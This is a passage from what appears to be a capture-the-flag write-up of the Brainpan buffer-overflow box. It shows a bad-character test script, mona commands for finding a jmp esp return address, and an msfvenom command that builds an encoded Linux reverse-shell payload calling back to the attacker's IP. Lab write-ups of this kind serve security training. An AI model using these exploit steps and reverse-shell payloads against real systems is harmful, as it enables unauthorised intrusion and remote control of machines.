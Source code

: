 ```python title="badchar.py"

try:
  s.connect((ip, port))
  print("Looking for badchars...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

When the application crashes, use mona to compare the generated saved byte array with the value of the bytearray starting from the $ESP address (`-a <ESP-value>`):

`!mona compare -f C:\Users\IEUser\Downloads\chatserver\bytearray.bin -a 0022F930`

Got unmodified status! This means the only bad char is the nullbyte (`"\x00"`).

### return jmp esp address

Run this mona command in Immunity Debugger to find a `jmp` address to use: `!mona jmp -r esp -cpb "\x00"`

Looks like we only have 1 x address to choose from:

```bash
Log data, item 3
 Address=311712F3
 Message=  0x311712f3 : jmp esp |  {PAGE_EXECUTE_READ} [brainpan.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\brainpan.exe)
```

return address = `0x311712f3` = little endian = `\xf3\x12\x17\x31`.

We have our return address, now it's time to create our (reverse shell) shellcode.

### shellcode

:::tip the right shellcode?

I spent a lot of time on the PRIVESC part not being able to pop root _because_ I was using a `windows_reverse_tcp` shell which connects successfully, but the behaviour of the commands I ran in that shell failed to get me root, whereas the same commands in the "correct" shell got me root immediately.

:::

The box is running Linux but the service is a Win32 executable run using WINE, while a windows_reverse_tcp shell connects successfully, I will document the process that got root successfully, starting with the right shell.

Thanks to tedd from the stream for figuring out the linux reverse shell to use which got us root.

Let's create the following linux reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 EXITFUNC=thread -b "\x00" -f c -e x86/shikata_ga_nai
```
